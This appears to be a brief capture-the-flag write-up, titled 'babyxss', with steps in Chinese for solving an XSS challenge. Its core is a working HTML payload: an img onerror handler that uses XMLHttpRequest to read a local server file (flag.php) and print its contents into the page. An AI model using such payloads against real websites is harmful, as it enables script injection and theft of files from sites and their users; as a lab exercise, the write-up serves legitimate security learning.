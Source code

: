 # Title
babyxss
# Tools
firefox or chrome
# Steps
* step 1 输入框输入
```html
<img src="e" onerror="var x=new XMLHttpRequest();x.open('GET','file:///var/www/html/flag.php',false);x.send(null);document.write('<textarea rows=10 cols=70>'+x.responseText+'</textarea>');">
```
* step 2 点击即可在图片中获得flag
